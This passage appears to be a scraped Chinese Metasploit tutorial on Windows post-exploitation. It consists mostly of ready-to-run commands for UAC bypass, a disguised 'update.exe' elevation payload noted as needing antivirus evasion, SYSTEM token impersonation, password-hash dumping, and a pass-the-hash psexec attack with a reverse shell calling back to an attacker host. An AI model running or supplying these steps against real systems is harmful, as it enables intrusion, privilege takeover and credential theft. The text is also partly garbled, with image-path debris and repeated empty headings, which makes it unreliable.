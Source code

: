 exploit/windows/local/bypassuac_silentcleanup
exploit/windows/local/bypassuac_vbs
</code></pre>
命令getsystem提权失败，再利用bypassuac来提权
例如exploit/windows/local/bypassuac模块(32位、64位都有效)
<pre><code>use exploit/windows/local/bypassuac
set session 1
run
</code></pre>
<hr/>
<h4>RunAs提权</h4>
利用exploit/windows/local/ask模块(32、64位)，创建一个可执行文件并在目标机上发起一个提升权限请求的程序，触发系统UAC，提示用户是否进行更改，若选择“是”，拿到高权限的meterpreter shell
<pre><code>use exploit/windows/local/ask
set filename update.exe  # 设置反弹程序名称
set session 1
run
</code></pre>
前提：
系统当前用户须在管理员组或者知道管理员的密码
用户账户控制程序UAC设置则没有要求
会创建一个可执行文件，该可执行文件（需进行免杀处理）的创建要使用EXE::Custom选项
<hr/>
<h4>假冒令牌提权</h4>
令牌是系统临时密钥，它允许你在不提供密码或其他凭证的前提下，访问网络和系统资源。这些令牌将持续存在于系统中，除非系统重新启动。
两种类型的令牌：
一种是Delegation Tokens（授权令牌），支持交互式登录（eg：远程桌面登陆登录）
一种是Impersonation Tokens（模拟令牌），非交互的会话（eg：访问文件共享）
<pre><code>use incognito     #加载窃取令牌模块 
list_tokens -u    #查看可用的用户令牌
list_tokens -g    #查看可用的用户组令牌
impersonate_token 'NT AUTHORITY\SYSTEM'  #假冒SYSTEM token
rev2self          #返回原始token
</code></pre>


#### 绕过UAC提权

---


#### 假冒令牌提权

> 
<h3>2.4、窃取hash及密码</h3>
<h4>hashdump</h4>
<pre><code>hashdump
run post/windows/gather/smart_hashdump

#得到的hash解密即用户密码</code></pre>
<hr/>
<h4>哈希传递</h4>
利用hashdump得到用户的hash
再利用psexec模块进行哈希传递攻击<br/> 使用psexec的前提：SMB服务必须开启（开启445端口）；Admin$可以访问
<pre><code>use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.183.147
set LPORT 443
set RHOST 192.168.183.154
set SMBUSER Administrator
set SMBPASS ccf**4ee:3db**678
set SMBDOMAIN  WORKGROUP   # 域用户需要设置SMBDOMAIN
run
</code></pre>
